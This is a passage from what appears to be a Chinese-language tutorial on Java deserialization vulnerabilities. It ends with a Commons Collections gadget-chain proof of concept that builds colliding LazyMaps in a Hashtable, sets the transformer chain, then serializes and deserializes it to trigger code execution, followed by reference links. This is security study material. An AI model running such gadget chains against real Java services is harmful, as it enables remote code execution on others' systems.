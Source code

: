 ```java
        table.put(lazyMap1,1);
        table.put(lazyMap2,2);

        setFieldValue(transformerChain,"iTransformers",transformers);
        lazyMap2.remove("yy");
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(table);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();

    }
}

```

![image-20221024174038180](https://tuchuang.huamang.xyz/img/image-20221024174038180.png)

参考链接：

[link1](https://jckling.github.io/2021/09/16/Security/Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%85%A5%E9%97%A8/)

[link2](https://blog.csdn.net/qq_35733751/article/details/119862728)

